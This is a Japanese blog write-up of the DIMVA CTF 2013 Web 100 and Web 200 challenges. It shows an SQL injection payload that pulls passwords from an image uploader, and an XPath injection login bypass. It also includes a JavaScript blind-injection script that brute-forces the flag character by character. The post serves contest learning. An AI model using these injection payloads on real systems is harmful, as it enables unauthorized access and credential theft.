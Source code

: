 ```yaml
---
title: DIMVA CTF 2013 writeup
author: tyage
type: post
date: 2013-07-19T16:29:48+00:00
url: /archive/p697.html
wp-syntax-cache-content:
  - |
    a:2:{i:1;s:959:"
    <div class="wp_syntax" style="position:relative;"><table><tr><td class="line_numbers"><pre>10
    </pre></td><td class="code"><pre class="html5" style="font-family:monospace;">'user' and/or 'password' parameters missing, please provide an xml parameter of the following form to login: <span style="color: #009900;">&lt;login&gt;&lt;user&gt;</span>(base64-encoded username)<span style="color: #009900;">&lt;<span style="color: #66cc66;">/</span>user&gt;&lt;password&gt;</span>(base64-encoded password)<span style="color: #009900;">&lt;<span style="color: #66cc66;">/</span>password&gt;&lt;<span style="color: #66cc66;">/</span>login&gt;</span></pre></td></tr></table><p class="theCode" style="display:none;">'user' and/or 'password' parameters missing, please provide an xml parameter of the following form to login: &lt;login&gt;&lt;user&gt;(base64-encoded username)&lt;/user&gt;&lt;password&gt;(base64-encoded password)&lt;/password&gt;&lt;/login&gt;</p></div>
    ";i:2;s:5063:"
    <div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="javascript" style="font-family:monospace;"><span style="color: #000066; font-weight: bold;">var</span> search <span style="color: #339933;">=</span> <span style="color: #3366CC;">&quot;c0ffee&quot;</span><span style="color: #339933;">;</span>
    &nbsp;
    <span style="color: #000066; font-weight: bold;">var</span> test <span style="color: #339933;">=</span> <span style="color: #000066; font-weight: bold;">function</span><span style="color: #009900;">&#40;</span>next<span style="color: #009900;">&#41;</span> <span style="color: #009900;">&#123;</span>
    	$.<span style="color: #660066;">ajax</span><span style="color: #009900;">&#40;</span><span style="color: #009900;">&#123;</span>
    		url<span style="color: #339933;">:</span> <span style="color: #3366CC;">&quot;/&quot;</span><span style="color: #339933;">,</span>
    		data<span style="color: #339933;">:</span> <span style="color: #009900;">&#123;</span>
    			user<span style="color: #339933;">:</span> <span style="color: #3366CC;">&quot;&quot;</span><span style="color: #339933;">,</span>
    			password<span style="color: #339933;">:</span> Base64.<span style="color: #660066;">encode</span><span style="color: #009900;">&#40;</span><span style="color: #3366CC;">&quot;' | //User[contains(.,'&quot;</span> <span style="color: #339933;">+</span> search <span style="color: #339933;">+</span> next<span style="color: #009900;">&#41;</span>
    		<span style="color: #009900;">&#125;</span>
    	<span style="color: #009900;">&#125;</span><span style="color: #009900;">&#41;</span>.<span style="color: #660066;">done</span><span style="color: #009900;">&#40;</span><span style="color: #000066; font-weight: bold;">function</span><span style="color: #009900;">&#40;</span>data<span style="color: #009900;">&#41;</span> <span style="color: #009900;">&#123;</span>
    		search <span style="color: #339933;">+=</span> next
    		nextTest<span style="color: #009900;">&#40;</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
    	<span style="color: #009900;">&#125;</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
    <span style="color: #009900;">&#125;</span><span style="color: #339933;">;</span>
    &nbsp;
    <span style="color: #000066; font-weight: bold;">var</span> nextTest <span style="color: #339933;">=</span> <span style="color: #000066; font-weight: bold;">function</span><span style="color: #009900;">&#40;</span><span style="color: #009900;">&#41;</span> <span style="color: #009900;">&#123;</span>
    	<span style="color: #000066; font-weight: bold;">for</span> <span style="color: #009900;">&#40;</span><span style="color: #000066; font-weight: bold;">var</span> i<span style="color: #339933;">=</span><span style="color: #3366CC;">&quot;a&quot;</span>.<span style="color: #660066;">charCodeAt</span><span style="color: #009900;">&#40;</span><span style="color: #CC0000;">0</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>i<span style="color: #339933;">&lt;=</span><span style="color: #3366CC;">&quot;z&quot;</span>.<span style="color: #660066;">charCodeAt</span><span style="color: #009900;">&#40;</span><span style="color: #CC0000;">0</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;++</span>i<span style="color: #009900;">&#41;</span> <span style="color: #009900;">&#123;</span>
    		test<span style="color: #009900;">&#40;</span><span style="">String</span>.<span style="color: #660066;">fromCharCode</span><span style="color: #009900;">&#40;</span>i<span style="color: #009900;">&#41;</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
    	<span style="color: #009900;">&#125;</span>
    	<span style="color: #000066; font-weight: bold;">for</span> <span style="color: #009900;">&#40;</span><span style="color: #000066; font-weight: bold;">var</span> i<span style="color: #339933;">=</span><span style="color: #CC0000;">0</span><span style="color: #339933;">;</span>i<span style="color: #339933;">&lt;=</span><span style="color: #CC0000;">9</span><span style="color: #339933;">;++</span>i<span style="color: #009900;">&#41;</span> <span style="color: #009900;">&#123;</span>
    		test<span style="color: #009900;">&#40;</span>i<span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
    	<span style="color: #009900;">&#125;</span>
    <span style="color: #009900;">&#125;</span><span style="color: #339933;">;</span></pre></td></tr></table><p class="theCode" style="display:none;">var search = &quot;c0ffee&quot;;
    
    var test = function(next) {
    	$.ajax({
    		url: &quot;/&quot;,
    		data: {
    			user: &quot;&quot;,
    			password: Base64.encode(&quot;' | //User[contains(.,'&quot; + search + next)
    		}
    	}).done(function(data) {
    		search += next
    		nextTest();
    	});
    };
    
    var nextTest = function() {
    	for (var i=&quot;a&quot;.charCodeAt(0);i&lt;=&quot;z&quot;.charCodeAt(0);++i) {
    		test(String.fromCharCode(i));
    	}
    	for (var i=0;i&lt;=9;++i) {
    		test(i);
    	}
    };</p></div>
    ";}
categories:
  - CTF

---
```

<p><a href="https://dimvactf.0x90.eu" title="DIMVA CTF">DIMVA CTF</a>に参加していた。</p>
<p>私のチーム（Epsilon Delta）は850ポイントで17位だった。</p>
<h3>Web 100</h3>
<p>画像アップローダーが用意されており、どうにかこうにかする問題。</p>
<p>はじめにいくつか画像が用意されており、パスワードを入力しないと閲覧できない画像があったため、そのパスワードを求める問題と推察される。</p>
<p>各画像にはタグがついており、同じタグを持つ写真を一覧で見れる。</p>
<p>しかし、シングルクオートの入ったタグの場合は一覧ページでエラーが発生していたため、SQLインジェクションがあるとわかった。</p>
<p>画像をアップロードした際、画像のコメントがタグになって登録されるので、そこにSQLインジェクションを埋め込む。</p>
<pre>
' union all select password from pictures--
</pre>
<p>その後、一覧ページを閲覧することでパスワードが入手でき、c0ffeeからはじまるパスワードがFlagであると判明した。</p>
<pre>
c0ffee29e34ad42d38cbe236913c911a
</pre>
<p>パスワード付きの画像はこんな感じだった。</p>
<p><a href="https://blog.tyage.net/wp-content/uploads/2013/07/4567.jpg"><img data-attachment-id="699" data-permalink="https://blog.tyage.net/?attachment_id=699" data-orig-file="https://blog.tyage.net/wp-content/uploads/2013/07/4567.jpg" data-orig-size="616,425" data-comments-opened="1" data-image-meta="{&quot;aperture&quot;:&quot;9&quot;,&quot;credit&quot;:&quot;&quot;,&quot;camera&quot;:&quot;DSLR-A700&quot;,&quot;caption&quot;:&quot;SONY DSC&quot;,&quot;created_timestamp&quot;:&quot;1226238208&quot;,&quot;copyright&quot;:&quot;&quot;,&quot;focal_length&quot;:&quot;210&quot;,&quot;iso&quot;:&quot;800&quot;,&quot;shutter_speed&quot;:&quot;0.001&quot;,&quot;title&quot;:&quot;SONY DSC&quot;,&quot;orientation&quot;:&quot;1&quot;}" data-image-title="SONY DSC" data-image-description="" data-medium-file="https://blog.tyage.net/wp-content/uploads/2013/07/4567.jpg" data-large-file="https://blog.tyage.net/wp-content/uploads/2013/07/4567.jpg" src="http://blog.tyage.net/wp-content/uploads/2013/07/4567-300x206.jpg" alt="SONY DSC" width="300" height="206" class="alignnone size-medium wp-image-699" /></a></p>
<p>素直でわかりやすい問題だったように思う。</p>
<h3>Web 200</h3>
<p>普通にアクセスすると</p>

<div class="wp_syntax" style="position:relative;"><table><tr><td class="line_numbers"><pre>10
</pre></td><td class="code"><pre class="html5" style="font-family:monospace;">'user' and/or 'password' parameters missing, please provide an xml parameter of the following form to login: <span style="color: #009900;">&lt;login&gt;&lt;user&gt;</span>(base64-encoded username)<span style="color: #009900;">&lt;<span style="color: #66cc66;">/</span>user&gt;&lt;password&gt;</span>(base64-encoded password)<span style="color: #009900;">&lt;<span style="color: #66cc66;">/</span>password&gt;&lt;<span style="color: #66cc66;">/</span>login&gt;</span></pre></td></tr></table></div>

<p>ってのが返って来る。</p>
<p>一日近く、urlにログイン用xmlを足したり、ファイルとして送信したり、送信するパケットのいろんなところに埋め込んだりして悩んだ。。。</p>
<p>コンテスト終了直前になって、/?xml=<login>&#8230;とすればログインできることに気づく。</p>
<p>xml parameterってのが素直にxmlって名前のリクエストパラメータだったのに、そこに気づくまでに一日かかって英語の壁を感じる。</p>
<p>これがわかればあとは解くだけ。</p>
<p>とりあえず色々試していると、以下のレスポンスが返って来たため、XPathへのインジェクションだとわかった。</p>
<pre>
 Error during login: Query: //User[UserName/text()='' and Password/text()='' '... ........................................................^^^ Invalid query somewhere around here (I think)
</pre>
<p>「&#8217; or &#8216;1&#8217;=&#8217;1」とかしてログインに成功すると、htmlのコメントで「users.xml~が残ってるからあとで消すように」と書かれているのでアクセスしてみる。</p>
<p>xml形式のユーザーデータがあり、「c0ffeefa7745f449c26000a2612affec」というデータがあったので、それをFlagとして送信したが失敗。</p>
<p>どうやらuser.xml~は古いデータらしく、現在は別のものに置き換わっている模様。</p>
<p>なのでblind injectionを利用して現在のデータからFlagを取得する。</p>

<div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="javascript" style="font-family:monospace;"><span style="color: #000066; font-weight: bold;">var</span> search <span style="color: #339933;">=</span> <span style="color: #3366CC;">&quot;c0ffee&quot;</span><span style="color: #339933;">;</span>
&nbsp;
<span style="color: #000066; font-weight: bold;">var</span> test <span style="color: #339933;">=</span> <span style="color: #000066; font-weight: bold;">function</span><span style="color: #009900;">&#40;</span>next<span style="color: #009900;">&#41;</span> <span style="color: #009900;">&#123;</span>
	$.<span style="color: #660066;">ajax</span><span style="color: #009900;">&#40;</span><span style="color: #009900;">&#123;</span>
		url<span style="color: #339933;">:</span> <span style="color: #3366CC;">&quot;/&quot;</span><span style="color: #339933;">,</span>
		data<span style="color: #339933;">:</span> <span style="color: #009900;">&#123;</span>
			user<span style="color: #339933;">:</span> <span style="color: #3366CC;">&quot;&quot;</span><span style="color: #339933;">,</span>
			password<span style="color: #339933;">:</span> Base64.<span style="color: #660066;">encode</span><span style="color: #009900;">&#40;</span><span style="color: #3366CC;">&quot;' | //User[contains(.,'&quot;</span> <span style="color: #339933;">+</span> search <span style="color: #339933;">+</span> next<span style="color: #009900;">&#41;</span>
		<span style="color: #009900;">&#125;</span>
	<span style="color: #009900;">&#125;</span><span style="color: #009900;">&#41;</span>.<span style="color: #660066;">done</span><span style="color: #009900;">&#40;</span><span style="color: #000066; font-weight: bold;">function</span><span style="color: #009900;">&#40;</span>data<span style="color: #009900;">&#41;</span> <span style="color: #009900;">&#123;</span>
		search <span style="color: #339933;">+=</span> next
		nextTest<span style="color: #009900;">&#40;</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
	<span style="color: #009900;">&#125;</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
<span style="color: #009900;">&#125;</span><span style="color: #339933;">;</span>
&nbsp;
<span style="color: #000066; font-weight: bold;">var</span> nextTest <span style="color: #339933;">=</span> <span style="color: #000066; font-weight: bold;">function</span><span style="color: #009900;">&#40;</span><span style="color: #009900;">&#41;</span> <span style="color: #009900;">&#123;</span>
	<span style="color: #000066; font-weight: bold;">for</span> <span style="color: #009900;">&#40;</span><span style="color: #000066; font-weight: bold;">var</span> i<span style="color: #339933;">=</span><span style="color: #3366CC;">&quot;a&quot;</span>.<span style="color: #660066;">charCodeAt</span><span style="color: #009900;">&#40;</span><span style="color: #CC0000;">0</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>i<span style="color: #339933;">&lt;=</span><span style="color: #3366CC;">&quot;z&quot;</span>.<span style="color: #660066;">charCodeAt</span><span style="color: #009900;">&#40;</span><span style="color: #CC0000;">0</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;++</span>i<span style="color: #009900;">&#41;</span> <span style="color: #009900;">&#123;</span>
		test<span style="color: #009900;">&#40;</span><span style="">String</span>.<span style="color: #660066;">fromCharCode</span><span style="color: #009900;">&#40;</span>i<span style="color: #009900;">&#41;</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
	<span style="color: #009900;">&#125;</span>
	<span style="color: #000066; font-weight: bold;">for</span> <span style="color: #009900;">&#40;</span><span style="color: #000066; font-weight: bold;">var</span> i<span style="color: #339933;">=</span><span style="color: #CC0000;">0</span><span style="color: #339933;">;</span>i<span style="color: #339933;">&lt;=</span><span style="color: #CC0000;">9</span><span style="color: #339933;">;++</span>i<span style="color: #009900;">&#41;</span> <span style="color: #009900;">&#123;</span>
		test<span style="color: #009900;">&#40;</span>i<span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
	<span style="color: #009900;">&#125;</span>
<span style="color: #009900;">&#125;</span><span style="color: #339933;">;</span></pre></td></tr></table></div>

<p>以下のFlagが得られる。</p>
<pre>
c0ffee153dbc077ea80f4e697a63ec1e
</pre>
<p>Accepted!!!</p>
